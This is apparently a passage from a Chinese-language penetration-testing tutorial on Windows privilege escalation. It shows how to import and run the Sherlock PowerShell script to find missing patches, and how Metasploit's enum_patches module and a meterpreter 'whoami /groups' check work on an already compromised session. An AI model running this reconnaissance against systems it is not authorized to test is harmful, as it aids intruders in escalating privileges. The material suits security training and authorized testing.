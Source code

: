 ### Sherlock 脚本

Sherlock 是一个在 Windows 下能够快速发现目标系统可能存在可被用于提权的漏洞的 PowerShell 脚本。

Sherlock 项目地址：[https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)

导入脚本

```
Import-Module .\Sherlock.ps1
```

Sherlock 命令

```
Find-ALLVulns	搜索所有未安装的补丁
Find-MS16032	搜索单个漏洞
```

### Metasploit

在已经获取到目标会话后，比如这里的会话 Seesion ID 为 1，使用 post/windows/gather/enum_patches 模块可直接查看当前系统补丁信息。

```
msf6 exploit(multi/handler) > use post/windows/gather/enum_patches

msf6 post(windows/gather/enum_patches) > set session 1
session => 1

msf6 post(windows/gather/enum_patches) > run
[+] KB2999226 installed on 11/26/2020
[+] KB976902 installed on 11/21/2010
[*] Post module execution completed
```

或者使用 MSF 发现目标可用提权漏洞，然后进行提权

首先查看下当前会话权限

```
msf6 post(windows/gather/enum_patches) > sessions 1
[*] Starting interaction with 1...

meterpreter > execute -if "whoami /groups"
Process 3048 created.
Channel 6 created.

组信息
-----------------

组名                                   类型   SID          属性
====================================== ====== ============ ==============================
Everyone                               已知组 S-1-1-0      必需的组, 启用于默认, 启用的组
BUILTIN\Administrators                 别名   S-1-5-32-544 只用于拒绝的组
BUILTIN\Users                          别名   S-1-5-32-545 必需的组, 启用于默认, 启用的组
NT AUTHORITY\INTERACTIVE               已知组 S-1-5-4      必需的组, 启用于默认, 启用的组
控制台登录                             已知组 S-1-2-1      必需的组, 启用于默认, 启用的组
NT AUTHORITY\Authenticated Users       已知组 S-1-5-11     必需的组, 启用于默认, 启用的组
NT AUTHORITY\This Organization         已知组 S-1-5-15     必需的组, 启用于默认, 启用的组
LOCAL                                  已知组 S-1-2-0      必需的组, 启用于默认, 启用的组
NT AUTHORITY\NTLM Authentication       已知组 S-1-5-64-10  必需的组, 启用于默认, 启用的组
Mandatory Label\Medium Mandatory Level 标签   S-1-16-8192  必需的组, 启用于默认, 启用的组
```
